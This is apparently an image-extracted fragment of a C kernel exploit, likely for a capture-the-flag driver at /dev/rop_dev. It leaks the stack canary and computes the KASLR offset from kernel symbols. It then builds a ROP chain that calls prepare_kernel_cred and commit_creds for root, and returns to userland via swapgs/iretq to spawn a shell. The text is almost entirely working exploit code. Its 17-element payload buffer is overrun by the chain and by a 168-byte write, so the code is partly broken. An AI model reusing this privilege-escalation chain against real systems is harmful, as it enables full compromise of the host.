 ``` c
    printf("the canary is 0x%lx\n", canary);
    
    return canary;
}

char *rop(size_t offset, size_t *ROP, size_t commit_creds, size_t prepare_kernel_cred)
{
    int i = 0;
    ROP[i++] = 0xffffffff8106b910 + offset; // pop rdi, ret
    ROP[i++] = 0x0;
    ROP[i++] = prepare_kernel_cred;

    ROP[i++] = 0xffffffff8105bd21 + offset; // test rcx,rcx ; jne 0xffffffff8105bcc6 ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = 0xffffffff8110c68a + offset; // mov rdi, rax ; jne 0xffffffff8110c672 ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = commit_creds;
    
    ROP[i++] = 0xffffffff81a00d5e + offset; // swapgs ; popfq ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = 0x0;
    ROP[i++] = 0xffffffff81024b3b + offset; // iretq

    ROP[i++] = (size_t)get_shell;          // rip
    ROP[i++] = user_cs;
    ROP[i++] = user_rflags;
    ROP[i++] = user_sp;
    ROP[i++] = user_ss;
}

int main()
{
    size_t base, commit_creds, prepare_kernel_cred;

    base = get_addr("startup_64");
    commit_creds = get_addr("commit_creds");
    prepare_kernel_cred = get_addr("prepare_kernel_cred");
    size_t offset = base - 0xffffffff81000000;
    printf("offset 0x%lx\n", offset);

    int fd = open("/dev/rop_dev", 2);
    if (0 == fd)
    {
        puts("open /dev/rop_dev error");
        exit(0);
    }
    char payload1[0x10] = {0};
    write(fd, payload1, 0x10);
    write(fd, payload1, 0x10);
    size_t canary = get_canary();
    
    size_t payload2[17] = {0};
    payload2[0] = 0x6161616161616161;
    payload2[1] = 0x6262626262626262;
    payload2[2] = canary;
    payload2[3] = 0x6363636363636363;
    save_status();
    rop(offset, &payload2[4], commit_creds, prepare_kernel_cred);
    write(fd, payload2, 8*21);
    puts("success");

```